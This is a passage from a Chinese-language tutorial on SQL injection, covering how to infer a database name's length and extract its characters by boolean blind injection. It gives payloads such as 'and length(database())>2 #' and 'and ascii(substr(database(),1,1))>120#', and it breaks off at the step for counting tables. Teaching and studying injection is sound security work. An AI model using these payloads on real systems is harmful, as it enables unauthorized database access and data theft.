 ## 3.1判断注入点

同2.1

## 3.2 判断数据库名长度

```sql
 #正常回显
 and length(database())>2 #
```

![image-20220603153609566](sql注入剖析.assets/image-20220603153609566.png)

![image-20220603153628583](sql注入剖析.assets/image-20220603153628583.png)

长度为3



## 3.3 获取数据库名

二分法查找，多次尝试

```sql
and ascii(substr(database(),1,1))>120#
```

## 3.4 获取表的数量
